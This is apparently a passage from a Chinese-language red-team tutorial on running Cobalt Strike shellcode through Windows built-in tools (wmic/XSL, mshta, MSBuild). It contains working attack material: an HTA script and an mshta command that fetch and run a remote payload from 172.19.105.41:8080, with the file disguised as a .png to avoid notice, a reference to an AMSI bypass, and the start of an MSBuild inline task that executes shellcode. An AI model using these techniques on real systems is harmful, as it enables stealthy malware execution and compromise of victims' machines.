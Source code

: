 ```xml
<xsl:value-of select="user:shellcode()"/>
</xsl:template>
</xsl:stylesheet>
```

# mshta

mshta.exe是微软Windows操作系统相关程序，英文全称Microsoft HTML Application，可翻译为微软超文本标记语言应用，用于执行.HTA文件。可以使用Microsoft MSHTA.exe工具解析JavaScript或VBScript的HTML文件。

编写一个脚本，加载上面wmic讲的的a.xsl，为了没那么明显，后缀名改为png，mshta同样会把他当成hta文件解释运行。脚本可以通过[AMSI_bypass.cna](https://github.com/Ridter/AMSI_bypass/blob/master/AMSI_bypass.cna)生成a.xsl时勾选use hta one liner

```html
<HTML>
<HEAD>
</HEAD>
<BODY>
<script language="javascript" >
var xml = new ActiveXObject("Microsoft.XMLDOM");
xml.async = false;
var xsl = xml;
xsl.load("http://172.19.105.41:8080/a.xsl");
xml.transformNode(xsl);
self.close();
</script>
</body>
</html>
```

后面就跟wmic一样上线。

```cmd
C:\Users\Desktop>mshta http://172.19.105.41:8080/a.png
```

# MSBUILD

MSBuild是Microsoft Build Engine的缩写，代表Microsoft和Visual Studio的新的生成平台。MSBuild可在未安装Visual Studio的环境中编译.net的工程文件。MSBuild可编译特定格式的xml文件。windows下的msbuild命令可以执行内容为特定格式的文件。在.NET Framework 4.0中支持了一项新功能”Inline Tasks”，被包含在元素UsingTask中，可用来在xml文件中执行c#代码。参考：[Use MSBuild To Do More](https://3gstudent.github.io/3gstudent.github.io/Use-MSBuild-To-Do-More/)

[Xml的脚本](https://github.com/3gstudent/msbuild-inline-task)，需要把executes shellcode.xml的shellcode改成cs的c#的payload，并且修改byte长度。

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <!-- This inline task executes shellcode. -->
  <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
  <!-- Save This File And Execute The Above Command -->
  <!-- Author: Casey Smith, Twitter: @subTee --> 
  <!-- License: BSD 3-Clause -->
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
```